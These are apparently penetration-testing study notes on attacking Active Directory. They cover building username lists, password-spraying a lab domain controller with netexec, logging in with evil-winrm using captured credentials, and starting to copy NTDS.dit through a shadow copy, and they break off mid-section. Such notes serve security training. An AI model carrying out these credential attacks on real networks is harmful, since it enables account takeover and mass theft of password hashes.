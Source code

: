 #### <mark class="hltr-grey">Creating a custom list of usernames</mark>

Many organizations follow a naming convention when creating employee usernames. Here are some common conventions to consider:

![[Pasted image 20240828010658.png]]

We can manually create our list(s) or use an `automated list generator` such as [Username Anarchy](https://github.com/urbanadventurer/username-anarchy) to convert a list of real names into common username formats. We can run it against a list of real names as shown in the example output below:
```shell-session
./username-anarchy -i /home/ltnbob/names.txt 
```

Or a single user
```
./username-anarchy anna key
```

#### <mark class="hltr-grey">Launching the Attack with Netexec</mark>

Once we have our list(s) prepared or discover the naming convention and some employee names, we can launch our attack against the target domain controller using a tool such as netexec. We can use it in conjunction with the SMB protocol to send logon requests to the target <mark class="hltr-green">Domain Controller</mark>. Here is the command to do so:
```
nxc smb 10.129.201.57 -u bwilliamson -p /usr/share/wordlists/fasttrack.txt
```

### <mark class="hltr-orange">Capturing NTDS.DIT (method 1)</mark>
#### <mark class="hltr-grey">Connecting to the DC</mark>
We can connect to a target DC using the credentials we captured.

```shell-session
evil-winrm -i 10.129.201.57  -u bwilliamson -p 'P@55w0rd!'
```

Once connected, we can check to see what privileges `bwilliamson` has. We can start with looking at the local group membership using the command:

```shell-session
PS C:\> net localgroup
```

We are looking to see if the account has local admin rights.
❗: To make a copy of the NTDS.dit file, we need local admin (<mark class="hltr-green">Administrators group</mark>) or Domain Admin (<mark class="hltr-green">Domain Admins group</mark>) (or equivalent) rights. We also will want to check what domain privileges we have.

```shell-session
PS C:\> net user bwilliamson
```

#### <mark class="hltr-grey">Copying NTDS.DIT</mark>
We can use `vssadmin` to create a [Volume Shadow Copy](https://docs.microsoft.com/en-us/windows-server/storage/file-server/volume-shadow-copy-service) (`VSS`) of the C: drive or whatever volume the admin chose when initially installing AD. It is very likely that NTDS will be stored on C: as that is the default location selected at install, but it is possible to change the location.


[DC01]: PS C:\Users\john\Documents> whoami
[DC01]: PS C:\Users\john\Documents> hostname
[DC01]: PS C:\Users\john\Documents>